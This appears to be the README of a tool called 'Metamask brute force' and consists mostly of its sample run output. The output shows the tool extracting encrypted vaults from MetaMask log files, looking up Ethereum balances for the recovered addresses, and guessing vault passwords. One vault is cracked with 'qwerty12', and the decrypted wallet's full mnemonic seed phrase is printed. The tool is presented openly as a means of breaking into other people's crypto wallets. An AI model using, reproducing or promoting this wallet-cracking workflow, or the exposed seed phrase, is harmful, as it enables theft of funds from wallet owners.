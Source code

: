 # Metamask brute force
"This program checks the balance of a MetaMask log file, extracts vault data, and brute-forces the vault data."


Starting processing in directory: C:\metamaskbrut

Processing file: C:\metamaskbrut\000233.log
Vault extracted and saved to file: C:\metamaskbrut\000233.log.hash
Ethereum address found: 0x3b74B91360d7c1B59DC157dCfe01aBae72557df2
Balance for address 0x3b74B91360d7c1B59DC157dCfe01aBae72557df2: 0.03913388434350565 ETH


Processing file: C:\metamaskbrut\00023664.log
Vault extracted and saved to file: C:\metamaskbrut\00023664.log.hash
Ethereum address found: 0xbd8ba29bbfeccb987c52451c222b387f1e2b03a8
Balance for address 0xbd8ba29bbfeccb987c52451c222b387f1e2b03a8: 0.00000000000000000 ETH


Processing complete.
Found 2 .hash file(s).

Processing file: .\000233.log.hash
Valid vaults loaded: 1

File processed. Passwords tried: 9  |  Vaults decrypted: 0  |  Speed: 0.00 p/s  |  Time elapsed: 0 sec

Processing file: .\00023664.log.hash
Valid vaults loaded: 1

Decrypted Vault: '{"data":"VtfsMLY/5cCEBtd+5LxrKUFLVJAXnTN1t4O+3W3RgU6Xce6Vh0C2Jst...'
Vault Password: 'qwerty12'
mnemonic: youth draw mother patient machine maze young mechanic silver pulse discover phone swear have nest

File processed. Passwords tried: 8  |  Vaults decrypted: 1  |  Speed: 1.14 p/s  |  Time elapsed: 7 sec

Finished.
